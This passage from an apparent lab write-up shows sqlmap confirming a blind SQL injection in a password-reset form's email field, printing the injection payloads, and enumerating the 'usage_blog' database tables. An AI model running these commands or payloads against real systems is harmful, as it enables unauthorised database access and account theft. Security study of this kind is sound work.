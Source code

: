 ```

oxdf@hacky$ sqlmap -r reset.request --level 5 --risk 3 --threads 10 -p email --batch
...[snip]...
sqlmap identified the following injection point(s) with a total of 739 HTTP(s) requests:
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: _token=66wdoUK4YezV6ByHKCZcctCcm1Umtl8rKxq9WN4s&email=0xdf' AND 7794=(SELECT (CASE WHEN (7794=7794) THEN 7794 ELSE (SELECT 5566 UNION SELECT 6960) END))-- GLMi

    Type: time-based blind
    Title: MySQL > 5.0.12 AND time-based blind (heavy query)
    Payload: _token=66wdoUK4YezV6ByHKCZcctCcm1Umtl8rKxq9WN4s&email=0xdf' AND 4726=(SELECT COUNT(*) FROM INFORMATION_SCHEMA.COLUMNS A, INFORMATION_SCHEMA.COLUMNS B, INFORMATION_SCHEMA.COLUMNS C WHERE 0 XOR 1)-- BxSD
---
[14:30:06] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL > 5.0.12
...[snip]...

```

#### DB Enumeration

Now that `sqlmap` has identified the injection, I can use it to enumerate the DB. I’ll start by listing databases by adding `--dbs` to the previous command:

```

oxdf@hacky$ sqlmap -r reset.request --level 5 --risk 3 --threads 10 -p email --batch --dbs
...[snip]...
available databases [3]:
[*] information_schema
[*] performance_schema
[*] usage_blog
...[snip]...

```

`information_schema` and `performance_schema` are related to MySQL, where as `usage_blog` is related to the website. To list the tables in `usage_blog`, I’ll replace `--dbs` with `-D usage_blog --tables`:

```

oxdf@hacky$ sqlmap -r reset.request --level 5 --risk 3 --threads 10 -p email --batch -D usage_blog --tables
...[snip]...
Database: usage_blog
[15 tables]
+------------------------+
| admin_menu             |
| admin_operation_log    |
| admin_permissions      |
| admin_role_menu        |
| admin_role_permissions |
| admin_role_users       |
| admin_roles            |
| admin_user_permissions |
| admin_users            |
| blog                   |
| failed_jobs            |
```